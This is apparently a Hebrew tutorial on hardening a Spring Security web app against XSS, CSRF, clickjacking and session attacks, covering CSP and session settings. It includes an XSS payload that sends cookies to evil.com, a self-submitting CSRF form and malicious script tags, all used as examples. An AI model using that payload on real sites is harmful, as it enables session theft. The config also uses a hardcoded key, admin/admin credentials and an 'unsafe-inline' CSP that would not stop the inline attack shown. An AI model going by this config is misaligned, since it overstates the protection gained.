



# שלב 6 - הגנות אבטחה מתקדמות

<div dir="rtl">

## סקירה כללית - מה מתווסף בשלב 6?

שלב 6 מוסיף שכבות הגנה מתקדמות שהופכות את המערכת לעמידה בפני התקפות web נפוצות. אלו הן הגנות קריטיות לסביבת production.

## מטריצת התכונות החדשות

| תכונה | שלבים 3-5 | שלב 6 |
|--------|------------|-------|
| **הגנה מפני XSS** | לא | כן |
| **הגנה מפני CSRF** | לא | כן |
| **CSP** | לא | כן |
| **Session Security** | בסיסי | מתקדם |

## 1. הגנה מפני XSS (Cross-Site Scripting)

### מה זה XSS?

התקפת XSS מתרחשת כשאתר מציג תוכן משתמש ללא סינון מתאים, ומאפשר הרצת JavaScript זדוני.

</div>



<div dir="rtl">

### דוגמה מהמערכת 

בלי הגנה, אם משתמש ירשום username כזה:

</div>

```javascript
// Input זדוני בטופס רישום:
username: "<script>document.location='http://evil.com/steal?cookie='+document.cookie</script>"
```

<div dir="rtl">

כשהאתר יציג את ה-username, הscript יירוץ ויגנוב cookies!

### ההגנה בשלב 6

Spring Security מוסיף headers הגנה:

</div>

```java
@Configuration
@EnableWebSecurity
public class SecurityConfig {
    
    @Bean
    public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
        http
            // XSS Protection Headers
            .headers(headers -> headers
                .contentTypeOptions(withDefaults())                    // X-Content-Type-Options
                .frameOptions(sameOrigin())                           // X-Frame-Options
                .httpStrictTransportSecurity(hstsConfig -> hstsConfig
                    .maxAgeInSeconds(31536000)                        // HSTS
                    .includeSubdomains(true))
            );
        
        return http.build();
    }
}
```

<div dir="rtl">

### Headers שנוספים:

</div>

```http
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
Strict-Transport-Security: max-age=31536000; includeSubDomains
```

<div dir="rtl">

## 2. הגנה מפני CSRF (Cross-Site Request Forgery)

### מה זה CSRF?

התקפת CSRF מאלצת משתמש מחובר לבצע פעולות לא רצויות באתר שלך ללא ידיעתו.

```mermaid
sequenceDiagram
    participant User as משתמש מחובר
    participant EvilSite as אתר זדוני
    participant YourSite as האתר שלך
    
    User->>YourSite: מתחבר למערכת שלך
    YourSite-->>User: session cookie
    
    User->>EvilSite: ביקור באתר זדוני
    EvilSite-->>User: HTML עם form חבוי
    
    Note over EvilSite: <form action="yoursite.com/register" method="POST"><br/><input name="username" value="hacker"><br/><input name="password" value="123"><br/></form><br/><script>document.forms[0].submit()</script>
    
    User->>YourSite: POST /register (אוטומטי!)
    Note over User: הדפדפן שולח session cookie
    YourSite->>YourSite: רושם משתמש חדש "hacker"
```

</div>



<div dir="rtl">

### ההגנה מפני CSRF בשלב 6

Spring Security מפעיל CSRF protection:

</div>

```java
@Configuration
@EnableWebSecurity  
public class SecurityConfig {
    
    @Bean
    public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
        http
            // הפעלת CSRF protection (במקום disable)
            .csrf(csrf -> csrf
                .csrfTokenRepository(CookieCsrfTokenRepository.withHttpOnlyFalse())
                .ignoringRequestMatchers("/api/public/**")  // endpoints ציבוריים
            )
            
            .authorizeHttpRequests(auth -> auth
                .requestMatchers("/role", "/register").hasRole("ADMIN")
                .anyRequest().authenticated());
        
        return http.build();
    }
}
```

<div dir="rtl">

### איך CSRF Token עובד

```mermaid
graph TD
    A[User requests form] --> B[Server generates CSRF token]
    B --> C[Token sent in hidden form field + cookie]
    C --> D[User submits form]
    D --> E[Server validates token]
    E --> F{Token valid?}
    F -->|Yes| G[Process request]
    F -->|No| H[403 Forbidden]
    
    style G fill:#012345
    style H fill:#901234
```

</div>



<div dir="rtl">

### Form עם CSRF Token (Thymeleaf):

</div>

```html
<form th:action="@{/register}" method="post">
    <!-- Thymeleaf מוסיף אוטומטית -->
    <input type="hidden" th:name="${_csrf.parameterName}" th:value="${_csrf.token}"/>
    
    <input type="text" name="username" required/>
    <input type="password" name="password" required/>
    <button type="submit">Register</button>
</form>
```

<div dir="rtl">

### בקשה עם CSRF Token:

</div>

```http
POST /register HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Cookie: JSESSIONID=...; XSRF-TOKEN=abc123...

username=newuser&password=password123&_csrf=abc123...
```

<div dir="rtl">

## 3. CSP (Content Security Policy)

### מה זה CSP?

CSP הוא header שמגדיר לדפדפן מאיפה מותר לטעון משאבים (scripts, styles, images).

```mermaid
graph TD
    A[Browser loads page] --> B[Read CSP header]
    B --> C{Script source allowed?}
    C -->|Yes| D[Execute script]
    C -->|No| E[Block script + console error]
    
    F{Style source allowed?} --> G[Apply styles]
    F --> H[Block styles]
    
    style D fill:#012345
    style E fill:#901234
    style G fill:#012345
    style H fill:#901234
```

</div>



<div dir="rtl">

### הגדרת CSP בשלב 6:

</div>

```java
@Configuration
public class SecurityConfig {
    
    @Bean
    public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
        http
            .headers(headers -> headers
                .contentSecurityPolicy(csp -> csp
                    .policyDirectives("default-src 'self'; " +
                                    "script-src 'self' 'unsafe-inline'; " +
                                    "style-src 'self' 'unsafe-inline'; " +
                                    "img-src 'self' data: https:; " +
                                    "font-src 'self'; " +
                                    "connect-src 'self'")
                )
            );
        
        return http.build();
    }
}
```

<div dir="rtl">

### CSP Header שנוצר:

</div>

```http
Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline'; style-src 'self' 'unsafe-inline'; img-src 'self' data: https:; font-src 'self'; connect-src 'self'
```

<div dir="rtl">

### פירוש הDirectives:

- **default-src 'self'** - ברירת מחדל: רק מהדומיין שלך
- **script-src 'self' 'unsafe-inline'** - scripts רק מהשרת שלך + inline
- **style-src 'self' 'unsafe-inline'** - CSS רק מהשרת שלך + inline
- **img-src 'self' data: https:** - תמונות מהשרת, data URLs, או HTTPS
- **font-src 'self'** - פונטים רק מהשרת שלך
- **connect-src 'self'** - Ajax/fetch רק לשרת שלך

### מה קורה כשמפרים CSP:

</div>

```javascript
// זה יחסם על ידי CSP:
<script src="http://evil.com/malware.js"></script>

// Console error:
// Refused to load the script 'http://evil.com/malware.js' because it violates the Content Security Policy directive: "script-src 'self'"
```

<div dir="rtl">

## 4. Session Security מתקדם

### שיפורי אבטחת Session בשלב 6:

</div>

```java
@Configuration
public class SecurityConfig {
    
    @Bean
    public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
        http
            .sessionManagement(session -> session
                .sessionCreationPolicy(SessionCreationPolicy.IF_REQUIRED)
                .maximumSessions(1)                          // משתמש אחד = session אחד
                .maxSessionsPreventsLogin(false)             // kick out old sessions
                .sessionRegistry(sessionRegistry())          // מעקב אחר sessions
                .and()
                .sessionFixation().migrateSession()          // הגנה מSession Fixation
                .invalidSessionUrl("/login?expired=true")    // redirect לsession פג תוקף
            )
            
            .rememberMe(remember -> remember
                .key("mySecretKey")                          // מפתח לremember-me
                .tokenValiditySeconds(86400)                // יום אחד
                .userDetailsService(userDetailsService)
            );
        
        return http.build();
    }
    
    @Bean
    public SessionRegistry sessionRegistry() {
        return new SessionRegistryImpl();
    }
}
```

<div dir="rtl">

### Cookie Settings מתקדמים:

</div>

```properties
# application.properties
server.servlet.session.cookie.http-only=true
server.servlet.session.cookie.secure=true
server.servlet.session.cookie.same-site=strict
server.servlet.session.timeout=30m
```

<div dir="rtl">

### הגנות Session נוספות:

#### 1. Session Fixation Protection:

</div>



<div dir="rtl">

#### 2. Concurrent Session Control:

</div>

```java
// מה קורה כשאותו משתמש מתחבר משני מקומות:
.maximumSessions(1)                    // רק session אחד
.maxSessionsPreventsLogin(false)       // kick out הישן, אפשר החדש
```

<div dir="rtl">

## מימוש האמיתי של שלב 6

### SecurityConfig האמיתי :

</div>

```java
@Configuration
@EnableWebSecurity
@RequiredArgsConstructor
public class SecurityConfig {

    Logger logger = Logger.getLogger(SecurityConfig.class.getName());
    private final CustomUserDetailsService userDetailsService;

    @Bean
    public static PasswordEncoder passwordEncoder() {
        return new BCryptPasswordEncoder();
    }

    @Bean
    public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
        http
            // XSS ו-Clickjacking Protection + CSP
            .headers(headers -> headers
                .contentSecurityPolicy(policy ->
                    policy.policyDirectives("default-src 'self'; script-src 'self' 'unsafe-inline'; style-src 'self' 'unsafe-inline';"))
                .frameOptions(HeadersConfigurer.FrameOptionsConfig::sameOrigin) // נגד Clickjacking
            )

            // CSRF Protection מופעל
            .csrf(csrf -> csrf
                .csrfTokenRepository(CookieCsrfTokenRepository.withHttpOnlyFalse()))

            .authorizeHttpRequests(auth -> auth
                // משאבים סטטיים דורשים authentication
                .requestMatchers("/css/**", "/js/**", "/images/**", "/static/**").authenticated()
                .requestMatchers("/login").permitAll()
                .requestMatchers("/role", "/register", "/admin_home").hasRole("ADMIN")
                .requestMatchers("/home").hasAnyRole("USER", "ADMIN")
                .anyRequest().authenticated())

            .formLogin(form -> form
                .loginPage("/login")
                .loginProcessingUrl("/login")
                .defaultSuccessUrl("/home", true)
                .failureUrl("/login?error=true")
                .permitAll())

            .logout(logout -> logout
                .logoutUrl("/logout")
                .logoutSuccessUrl("/login")
                .deleteCookies("JSESSIONID")
                .permitAll())
                
            // Session Security מתקדם
            .sessionManagement(session -> session
                .sessionCreationPolicy(SessionCreationPolicy.IF_REQUIRED)
                .sessionFixation(SessionManagementConfigurer.SessionFixationConfigurer::migrateSession) // הגנה מSession Fixation
                .maximumSessions(1) // רק session אחד למשתמש
                .expiredSessionStrategy(event -> 
                    logger.warning("Session expired for user: " + event.getSessionInformation().getPrincipal())));

        return http.build();
    }
}
```

<div dir="rtl">

## ניתוח ההגנות הממשיות

### 1. CSP (Content Security Policy) מוגדר:

</div>

```
default-src 'self'; script-src 'self' 'unsafe-inline'; style-src 'self' 'unsafe-inline';
```

<div dir="rtl">

**משמעות:**
- **default-src 'self'** - כל המשאבים רק מהדומיין שלך
- **script-src 'self' 'unsafe-inline'** - JavaScript מהשרת שלך + inline scripts
- **style-src 'self' 'unsafe-inline'** - CSS מהשרת שלך + inline styles

**מה זה חוסם:**

</div>

```html
<!-- זה יחסם -->
<script src="https://evil.com/malware.js"></script>


<!-- זה יעבוד -->
<script src="/js/app.js"></script>
<script>console.log('inline script');</script>
<style>body { color: red; }</style>
```

<div dir="rtl">

### 2. הגנה מClickjacking:

</div>

```java
.frameOptions(HeadersConfigurer.FrameOptionsConfig::sameOrigin)
```

<div dir="rtl">

**Header שנוצר:**

</div>

```http
X-Frame-Options: SAMEORIGIN
```

<div dir="rtl">

**משמעות:** האתר שלך יכול להיות מוטמע ב-iframe רק מהדומיין שלך.

### 3. CSRF Protection פעיל:

</div>

```java
.csrf(csrf -> csrf
    .csrfTokenRepository(CookieCsrfTokenRepository.withHttpOnlyFalse()))
```

<div dir="rtl">

**Cookie שנוצר:**

</div>

```http
Set-Cookie: XSRF-TOKEN=abc123...; Path=/
```

<div dir="rtl">

**withHttpOnlyFalse** אומר שJavaScript יכול לגשת לcookie הזה (נדרש לSPA/Ajax).

### 4. משאבים סטטיים מוגנים:

</div>

```java
.requestMatchers("/css/**", "/js/**", "/images/**", "/static/**").authenticated()
```

<div dir="rtl">

**חשוב!** אפילו קבצי CSS ו-JS דורשים authentication. זה מונע גישה ישירה למשאבים.

### 5. Session Security מתקדם:

#### הגנה מSession Fixation:

</div>

```java
.sessionFixation(SessionManagementConfigurer.SessionFixationConfigurer::migrateSession)
```

<div dir="rtl">

**מה זה עושה:** כשמשתמש מתחבר, Spring יוצר session ID חדש (לא משתמש בישן).

</div>



<div dir="rtl">

#### מגבלת Sessions:

</div>

```java
.maximumSessions(1) // רק session אחד למשתמש
.expiredSessionStrategy(event -> 
    logger.warning("Session expired for user: " + event.getSessionInformation().getPrincipal()))
```

<div dir="rtl">

**מה קורה:**
1. המשתמש admin מתחבר ממחשב A → session 1
2. admin מתחבר ממחשב B → session 1 פג תוקף, session 2 נוצר
3. בלוג מודפס: "Session expired for user: admin"

## הבדיקות שאפשר לעשות עכשיו

### 1. בדיקת CSRF:

</div>

```http
### זה ייכשל - אין CSRF token
POST {{host}}/register
Content-Type: application/x-www-form-urlencoded

username=hacker&password=123

### תשובה צפויה: 403 Forbidden
```

<div dir="rtl">

### 2. בדיקת CSP:

פתח את הדף ב-browser ונסה להריץ בconsole:

</div>

```javascript
// זה יחסם על ידי CSP
var script = document.createElement('script');
script.src = 'https://evil.com/malware.js';
document.head.appendChild(script);

// Console error:
// Refused to load the script because it violates CSP directive: "script-src 'self' 'unsafe-inline'"
```

<div dir="rtl">

### 3. בדיקת Frame Options:

נסה להטמיע את האתר ב-iframe מדומיין אחר:

</div>

```html
<!-- זה יחסם -->
<iframe src="http://yoursite.com/home"></iframe>
<!-- Error: Refused to display in a frame because it set 'X-Frame-Options' to 'sameorigin' -->
```

<div dir="rtl">

### 4. בדיקת Session Limits:

</div>

```http
### התחבר פעם ראשונה
POST {{host}}/login
Content-Type: application/x-www-form-urlencoded

username=admin&password=admin

### התחבר פעם שנייה עם אותו משתמש
### הsession הראשון יפוג תוקף!
POST {{host}}/login  
Content-Type: application/x-www-form-urlencoded

username=admin&password=admin
```

<div dir="rtl">

**בלוגים בשרת:**

</div>

```
WARNING: Session expired for user: admin
```

<div dir="rtl">

### 5. בדיקת Static Resources:

</div>

```http
### בלי authentication - יכשל
GET {{host}}/css/style.css

### עם authentication - יעבוד
GET {{host}}/css/style.css
Cookie: JSESSIONID=...
```

<div dir="rtl">

## Headers שהדפדפן יקבל בפועל:

</div>

```http
HTTP/1.1 200 OK
Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline'; style-src 'self' 'unsafe-inline';
X-Frame-Options: SAMEORIGIN
Set-Cookie: JSESSIONID=...; Path=/; HttpOnly
Set-Cookie: XSRF-TOKEN=abc123...; Path=/
```

<div dir="rtl">

## מה חסר לעומת מימוש מלא?

המימוש הוא **מעולה לסביבת לימוד**, אבל לproduction אפשר להוסיף:

### 1. HSTS (HTTPS Strict Transport Security):

</div>

```java
.headers(headers -> headers
    .httpStrictTransportSecurity(hstsConfig -> hstsConfig
        .maxAgeInSeconds(31536000)
        .includeSubdomains(true))
)
```

<div dir="rtl">

### 2. CSP מורחב יותר:

</div>

```java
.contentSecurityPolicy(policy ->
    policy.policyDirectives("default-src 'self'; " +
                          "script-src 'self' 'unsafe-inline'; " +
                          "style-src 'self' 'unsafe-inline'; " +
                          "img-src 'self' data: https:; " +
                          "font-src 'self'"))
```

<div dir="rtl">

### 3. X-Content-Type-Options:

</div>

```java
.headers(headers -> headers
    .contentTypeOptions(withDefaults())  // X-Content-Type-Options: nosniff
)
```

<div dir="rtl">

## סיכום המימוש האמיתי

המערכת ב-Stage 6 כוללת:

**הגנות שמיושמות:**
- CSP בסיסי אבל יעיל
- הגנה מClickjacking
- CSRF protection מלא
- Session Fixation protection
- Session concurrency control
- Static resources protection
- Logging של sessions פגי תוקף

**רמת האבטחה:**
המערכת עכשיו עמידה בפני הרוב המוחלט של התקפות web בסיסיות ומתוך-בינוניות. זה מימוש מצוין לסביבת פיתוח ולימוד, ועם כמה תוספות קטנות יכול להיות production-ready.

**הנקודה החשובה:** כל התכונות עובדות יחד ליצירת שכבות הגנה מרובות - אם התוקף עובר הגנה אחת, יש עוד כמה שמחכות לו!

</div>

</div>